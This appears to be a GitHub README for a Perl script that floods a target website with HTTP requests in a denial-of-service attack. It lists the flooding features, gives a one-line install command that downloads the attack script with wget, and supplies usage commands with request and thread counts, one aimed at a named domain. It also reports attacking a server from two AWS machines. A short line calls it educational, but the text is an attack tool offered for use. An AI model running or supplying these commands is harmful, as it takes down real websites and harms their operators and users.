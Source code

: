 
# Script for HTTP DDoS Attack ↓

## Features

- Send request with Random User-agent, Read user-agent from Local file.
- multi-threading
- Easy to Customize for beginners
- customizable Headers
- Define Number of request to be send to target
- Can modify Delay btween next request
- HTTP/HTTPS proxy can be used with modification*
- Language: Perl
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/http.pl && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/user.txt && yes | perl -MCPAN -e'install "LWP::Simple"' && yes | apt-get install libwww-perl && chmod 777 *
```
## Usage

```
perl http.pl --url http://dultr.in/ --requests 100000 --threads 50
perl http.pl --url <target_url> --requests <no_of_req> --threads <no_of_threads>
```
```
- script read user agent from a file "user.txt" in same directory! (Line22) for change 
name or the directory of user-agent file!
- To modify header add, delete -> check (line 43)
- Delay between next request (line 56), bydefault 0.1s
```
```
- This script purpose to understand the HTTP ddos, to understand how traffic flows,
- Support only Attack to HTTP url,
```

## Screenshot for understanding the Script workflow !

![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097327395826040984/Attacker_Server.png)

## Targeted Server
![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097328145188794651/Attacker_Server_1.png)

## Used 2 Aws Serever with 32 Core to Attack this, Checkhost Report
![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097333866219450418/image.png)
## permanent link for this check: https://check-host.net/check-report/f95317ck4c6


## Check this Script Also for better Understanding ->

Click Below ↓

[Click Here for that Script](https://github.com/cyberceros/ddos-dose/tree/main/Layer7/HTTP-DDoS/HTTP-SIMPLE-CUSTOM%20%7C%20ID:2A)



## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in
